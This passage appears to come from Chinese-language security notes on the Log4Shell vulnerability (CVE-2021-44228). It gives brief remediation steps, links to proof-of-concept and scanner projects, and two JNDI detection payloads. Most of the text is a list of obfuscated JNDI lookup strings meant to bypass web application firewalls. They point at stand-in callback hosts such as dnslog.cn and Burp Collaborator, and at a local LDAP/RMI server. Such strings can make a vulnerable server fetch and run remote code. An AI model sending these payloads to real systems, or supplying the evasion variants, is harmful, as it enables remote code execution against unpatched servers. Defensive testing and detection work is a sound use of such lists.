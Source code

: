 **修复方案**
- 设置系统环境变量 LOG4J_log4j2_formatMsgNoLookups=True
- 升级 Apache Log4j2 所有相关应用到最新版本，地址 https://github.com/apache/logging-log4j2/tags
- [Cybereason/Logout4Shell](https://github.com/Cybereason/Logout4Shell)

**检测 payload**

```
${jndi:ldap://xxx.dnslog.cn/a}
${jndi:rmi://xxx.dnslog.cn/a}
```

- [jas502n/Log4j2-CVE-2021-44228](https://github.com/jas502n/Log4j2-CVE-2021-44228)
- [Puliczek/CVE-2021-44228-PoC-log4j-bypass-words](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words)
- [google/log4jscanner](https://github.com/google/log4jscanner) - A log4j vulnerability filesystem scanner and Go package for analyzing JAR files.

**一些 bypass**

```
# RC1 绕过
${jndi:ldap://127.0.0.1:1389/ Badclassname}

# bypass WAF
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://xxx.dnslog.cn/poc}
${${::-j}ndi:rmi://xxx.dnslog.cn/ass}
${${lower:jndi}:${lower:rmi}://xxx.dnslog.cn/poc}
${${lower:${lower:jndi}}:${lower:rmi}://xxx.dnslog.cn/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://xxx.dnslog.cn/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxx.dnslog.cn/poc}
${${env:foo:-jndi}:ldap://xxx.dnslog.cn/a}

${${lower:jnd}${lower:${upper:ı}}:ldap://...}

${jndi:${lower:l}${lower:d}a${lower:p}://example.com/

${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}

${j${lower:n}d${lower:i}${lower::}${lower:l}d${lower:a}p${lower::}${lower:/}/${lower:1}${lower:2}${lower:7}.${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}0${lower:9}${lower:9}/${lower:o}${lower:b}j}

${${::-j}ndi:rmi://127.0.0.1:1389/ass}

${${lower:jndi}:${lower:rmi}://q.w.e/poc}

${${lower:${lower:jndi}}:${lower:rmi}://a.s.d/poc}

${${upper:j}${lower:n}${lower:d}${lower:i}${lower::}${lower:l}${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}${lower:1}${lower:2}${lower:7}${lower:.}${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}${lower:0}${lower:9}${lower:9}${lower:/}${lower:o}${lower:b}${lower:j}}

${${nuDV:CW:yqL:dWTUHX:-j}n${obpOW:C:-d}${ll:-i}:${GI:-l}d${YRYWp:yjkg:wrsb:RajYR:-a}p://${RHe:-1}2${Qmox:dC:MB:-7}${ucP:yQH:xYtT:WCVX:-.}0.${WQRvpR:ligza:J:DSBUAv:-0}.${v:-1}:${p:KJ:-1}${Ek:gyx:klkQMP:-0}${UqY:cE:LPJtt:L:ntC:-9}${NR:LXqcg:-9}/o${fzg:rsHKT:-b}j}

${${uPBeLd:JghU:kyH:C:TURit:-j}${odX:t:STGD:UaqOvq:wANmU:-n}${mgSejH:tpr:zWlb:-d}${ohw:Yyz:OuptUo:gTKe:BFxGG:-i}${fGX:L:KhSyJ:-:}${E:o:wsyhug:LGVMcx:-l}${Prz:-d}${d:PeH:OmFo:GId:-a}${NLsTHo:-p}${uwF:eszIV:QSvP:-:}${JF:l:U:-/}${AyEC:rOLocm:-/}${jkJFS:r:xYzF:Frpi:he:-1}${PWtKH:w:uMiHM:vxI:-2}${a:-7}${sKiDNh:ilypjq:zemKm:-.}${QYpbY:P:dkXtCk:-0}${Iwv:TmFtBR:f:PJ:-.}${Q:-0}${LX:fMVyGy:-.}${lS:Mged:X:th:Yarx:-1}${xxOTJ:-:}${JIUlWM:-1}${Mt:Wxhdp:Rr:LuAa:QLUpW:-0}${sa:kTPw:UnP:-9}${HuDQED:-9}${modEYg:UeKXl:YJAt:pAl:u:-/}${BPJYbu:miTDQJ:-o}${VLeIR:VMYlY:f:Gaso:cVApg:-b}${sywJIr:RbbDTB:JXYr:ePKz:-j}}

```